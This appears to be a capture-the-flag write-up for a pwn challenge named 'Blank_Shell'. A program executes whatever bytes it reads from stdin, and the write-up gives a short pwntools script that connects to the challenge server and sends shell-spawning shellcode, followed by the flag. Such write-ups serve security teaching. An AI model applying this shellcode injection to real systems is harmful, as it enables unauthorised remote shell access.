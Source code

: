 # Blank_Shell

**Description**:  
We meet atlast, Agent 007! I present to you the blank shell of the Egyptian Sarcophagus. Whatever you give it will be presented back to you by this special Sarcophagus. Remember, the shell maybe empty but in lies treasures untold. To your imminent victory!


**Author:  [Ath3n1x](https://twitter.com/Ath3n1x)**


**Solution**: 
First lets check the permissions with `checksec`:
```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
Except for canary, everything else is enabled. 

Now lets run the program and take a look at its source. 
```
int main(int argc, char **argv) { 
    int* addr = mmap(0, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_ANONYMOUS | MAP_PRIVATE, -1, 0);
    read(0, addr, 100);
    
    void (*shellcode)() = (void (*)()) addr;
    shellcode();
}
```

Here you can see that the program is using the `mmap` system call to allocate a memory region and then reads data into this allocated memory from the standard input (stdin) before attempting to execute it as a function.
`shellcode();` calls the function pointed to by shellcode. Since this function pointer is set to the memory region where data was read from standard input, it attempts to execute that data as if it were a function.

So in short, it creates an executable region in memory and then takes in any arbitary shellcode that the user gives and executes it.

Therefore if we provide a shellcode that can spawn a shell then its imminent victory!

**Exploit**:
```
from pwn import *

p = remote("13.234.11.113", 30125)

context.arch = "amd64"

p.sendline(asm(shellcraft.sh()))

p.interactive()
```


**Flag: `shaktictf{sh3llc0d1ng_15_4_p13c3_0f_c4k3_9270138712038}`**            